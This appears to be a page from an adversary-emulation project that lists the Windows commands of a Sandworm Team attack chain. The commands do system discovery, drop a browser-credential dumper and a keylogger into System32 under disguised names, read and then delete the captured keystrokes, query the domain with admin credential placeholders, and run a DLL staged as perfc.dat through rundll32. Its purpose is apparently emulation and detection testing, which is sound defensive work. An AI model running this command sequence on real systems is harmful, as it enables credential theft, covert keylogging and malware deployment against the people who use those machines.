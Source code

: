 ```json
}
  
```

## Windows Commands extracted

```powershell
cat sandworm_team_g0034_windows_commands.txt 
whoami.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v ProductName &
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v CurrentMajorVersionNumber &
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v CurrentMinorVersionNumber &
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v CurrentBuild
dir /s /b C:\ > dir.out
netstat -ano | findstr 3389
move .\dumpWebBrowserCreds.exe C:\Windows\System32\oradump.exe
C:\Windows\System32\oradump.exe 2>&1
move .\keylogger.exe C:\Windows\System32\mslog.exe
exec-background cmd.exe /k "C:\Windows\System32\mslog.exe -o C:\Windows\System32\mslog.txt"
dir C:\Windows\System32\mslog.txt
type C:\Windows\System32\mslog.txt
taskkill /F /IM mslog.exe
dsquery.exe computer -s #{dc.target.host} -u #{domain.admin.name} -p #{domain.admin.password}
del /Q C:\Windows\System32\oradump.exe C:\Windows\System32\mslog.exe C:\Windows\System32\mslog.txt
copy \\TSCLIENT\X\SharpNP.dll C:\Windows\perfc.dat;
dir C:\Windows\perfc.dat;
rundll32.exe C:\Windows\perfc.dat,"#1"
```


## Checking the Event Logs:

```
```